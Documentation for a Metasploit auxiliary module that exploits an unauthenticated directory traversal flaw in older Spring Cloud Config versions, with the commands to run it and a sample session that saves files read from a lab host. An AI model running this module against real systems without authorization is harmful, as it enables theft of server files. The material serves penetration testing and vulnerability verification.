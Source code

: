## Vulnerable Application

This module exploits an unauthenticated directory traversal vulnerability, which exists in Spring Cloud Config versions 2.1.x prior to 2.1.2,versions 2.0.x prior to 2.0.4, and versions 1.4.x prior to 1.4.6.
Spring Cloud Config listens by default on port 8888.

* https://github.com/spring-cloud/spring-cloud-config/archive/v2.1.1.RELEASE.zip

## Verification Steps

1. `./msfconsole`
2. `use auxiliary/scanner/http/springcloud_traversal`
3. `set rhosts <rhost>`
4. `run`

## Scenarios

### Tested against Linux zero 4.15.0-48-generic #51-Ubuntu SMP x86_64 GNU/Linux

```
msf > use auxiliary/scanner/http/springcloud_traversal 
msf auxiliary(scanner/http/springcloud_traversal) > set RHOSTS 192.168.1.132
RHOSTS => 192.168.1.132
msf auxiliary(scanner/http/springcloud_traversal) > run

[+] File saved in: /home/input0/.msf4/loot/20190418203756_default_192.168.1.132_springcloud.trav_893434.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/springcloud_traversal) >
```

